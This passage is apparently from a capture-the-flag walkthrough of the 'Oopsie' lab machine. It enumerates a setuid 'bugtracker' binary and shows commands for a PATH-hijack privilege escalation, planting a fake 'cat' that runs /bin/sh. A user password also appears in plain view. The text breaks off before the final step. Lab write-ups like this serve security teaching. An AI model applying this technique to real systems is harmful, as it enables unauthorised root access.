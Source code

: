 ```
robert@oopsie:~$ sudo -l
sudo -l
[sudo] password for robert: M3g4C0rpUs3r!

Sorry, user robert may not run sudo on oopsie.
robert@oopsie:~$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:~$ 
```

We observe that robert is part of the group `bugtracker`." Let's see if there is any relevant binary within that group:
```
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

We found a file named `bugtracker` with `suid` privileges, which looks promising. To gather more information, we run the following commands:

```
robert@oopsie:~$ ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

The binary has `suid` permissions, indicating potential exploitation. We run the application to observe how it behaves.

```
robert@oopsie:~$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

cat: /root/reports/12: No such file or directory
```

The tool accepts user input as a filename for reading using the cat command. However, it does not specify the complete file path for cat, which creates a potential vulnerability that we may be able to exploit.  To exploit this, we navigate to the `/tmp` directory and create a file named `cat`:

```
robert@oopsie:/$ cd /tmp           
cd /tmp
robert@oopsie:/tmp$ echo '/bin/sh' > cat
echo '/bin/sh' > cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
Finally, we execute the bugtracker application from the /tmp directory:

